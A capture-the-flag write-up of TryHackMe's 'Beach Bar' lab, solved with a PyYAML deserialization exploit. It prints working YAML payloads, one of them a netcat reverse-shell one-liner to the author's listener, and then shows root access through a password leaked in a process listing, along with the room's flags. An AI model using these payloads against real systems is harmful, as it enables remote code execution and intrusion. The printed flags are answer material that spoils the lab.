






# [Beach Bar](https://tryhackme.com/room/hh-beachbar-d849f7f7)

- Day 5 of Hacker Holidays. Today's challenge is a boot2root machine. Let's dive into it.



- Click on the Start button, note the IP address, and we are all set to go.



- Well, we got a URL. Let's open it in the browser.
- We can see a login portal. It seems to be for the Beach Bar DJ, where logged-in users can manage the playlist.



- The source code of the page revealed the demo credentials: `dj/dj`.



- Let's log in with those credentials.


- The site shows the number of songs in the queue and provides export and import functionality to view the songs, edit them, and upload our own playlist.
- The site uses YAML. We can export and import data in YAML format.
- YAML (YAML Ain't Markup Language) is a human-readable data serialization format that is commonly used for configuration files, data exchange, and more.
- Then I checked the web technology stack and found that the backend uses Python.



- The first thing that struck my mind was a deserialization vulnerability. Python provides a convenient module called PyYAML for parsing and serializing YAML data.
- If it is not implemented correctly, it can construct Python objects, which eventually leads to RCE. [Read more about the vulnerability here](https://hacktricks.wiki/en/pentesting-web/deserialization/python-yaml-deserialization.html)
- PyYAML deserialization vulnerabilities occur when an application parses untrusted YAML data using unsafe loaders like yaml.load(), yaml.FullLoader, or yaml.unsafe_load(). Because PyYAML can construct arbitrary Python objects from tags, crafted malicious payloads allow attackers to achieve remote code execution (RCE) on the host system.

- I found the following payload in HackTricks.

```
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('nc 192.168.175.139 1234')"]
  ```
- It made an arbitrary connection to my Netcat listener.
- It first obtains a reference to the built-in eval function using !!python/name:eval, then creates a map object that applies eval to the supplied string.
- Finally, wrapping the map object inside a tuple forces the lazy iterator to execute, causing eval("__import__('os').system('nc 192.168.175.139 1234')") to run.
- Now, it's time to get a reverse shell.

```
!!python/object/new:tuple
- !!python/object/new:map
  - !!python/name:eval
  - ["__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.175.139 1234 >/tmp/f')"]
  ```



- We got a shell as `bartender`, and we can find the `user.txt` file in the home directory.

## User.txt

**THM{y4ml_pl4yl1st_pwns_th3_b34ch}**

- I found a service running as root, and it was revealing a password.
```
 ps -aux | grep juk
root         608  0.0  0.2  20176 11740 ?        Ss   12:21   0:00 /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py --stream-pass SunsetSpritz2024! --bitrate 320k
bartend+    1360  0.0  0.0   7084  2168 pts/0    S+   12:36   0:00 grep --color=auto juk
```
- I tried this password for the root user, and it worked. **root:SunsetSpritz2024!**


## Root.txt

```
bartender@tryhackme-2404:/opt/beach-bar/jukeboxd$ su root
Password: 
root@tryhackme-2404:/opt/beach-bar/jukeboxd# cat /root/root.txt 
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}

```

**Flag: THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}**
